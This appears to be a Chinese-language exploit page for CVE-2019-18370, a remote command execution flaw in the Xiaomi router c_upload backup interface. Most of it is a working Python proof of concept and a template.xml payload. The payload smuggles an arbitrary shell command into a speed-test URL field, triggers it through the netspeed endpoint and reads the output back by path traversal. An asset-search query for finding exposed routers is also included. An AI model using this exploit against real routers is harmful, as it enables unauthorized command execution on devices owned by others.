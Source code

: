 # 小米 路由器 c_upload 远程命令执行漏洞 CVE-2019-18370

## 漏洞描述

小米路由器存在接口，备份文件是tar.gz格式的，上传后tar zxf解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619-20220710155157295.png)

验证POC

```php
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://xxx.xxx.xxx.xxx/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml 文件

```php
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>
```

接口为后台权限接口，需要通过任意文件读取漏洞获取 stok

![img](../../../.vuepress/public/img/1657439236976-27a33bc3-42ff-412f-9e66-4c57198d42fe.png)